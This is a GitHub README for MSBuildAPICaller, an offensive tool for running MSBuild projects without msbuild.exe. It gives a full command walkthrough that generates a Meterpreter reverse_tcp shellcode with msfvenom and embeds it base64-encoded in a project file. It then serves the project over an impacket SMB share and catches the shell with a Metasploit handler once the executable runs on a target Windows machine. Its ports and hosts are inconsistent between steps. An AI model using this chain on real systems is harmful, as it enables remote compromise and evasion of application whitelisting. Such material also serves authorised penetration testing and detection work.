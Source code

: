 # MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 0: git clone this repo on your Kali Linux

```
git clone https://github.com/xax007/MSBuildAPICaller
cd MSBuildAPICaller
```

## Step 1: Build IEShim.cs on your Windows Machine
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs
```

## Step 2: Modify "projectPath" variable on line 60 of msbuildapicaller.cs to your needs

Example: `string projectPath = '\\\\192.168.1.100\\share\\msbuildapicaller.csproj';`

## Step 3: Generate shellcode and replace in msbuildapicaller.csproj

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o payload64.bin LHOST=10.0.0.1 LPORT=2000
``` 
and convert shellcode from binary to base64 string  

```
base64 -w 0 -i /root/payload64.bin > payload64.txt
```  

Replace <Base64 Encoded x64 Shellcode>  with your base64 encoded x64 shellcode in msbuildapicaller.csproj


## Step 4: Replace `AssemblyFile` variable in msbuildapicaller.csproj file with the location of your compiled dll from step 1

## Step 5: Build msbuildapicaller.cs

```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs
```

## Step 6: start a SMB Server via impacket

```
impacket-smbserver pentestlab /msbuild -smb2support
```
## Step 7: start a Metasploit exploit handler
```
$ msfdb run
msf5> handler -p payload windows/x64/meterpreter/reverse_tcp -P 4444 -H 1.2.3.4
```
## Step 8: Execute msbuildapicaller.exe on target windows machine


reference: [MSBUILD WITHOUT MSBUILD](https://pentestlaboratories.com/2020/01/27/msbuild-without-msbuild/)
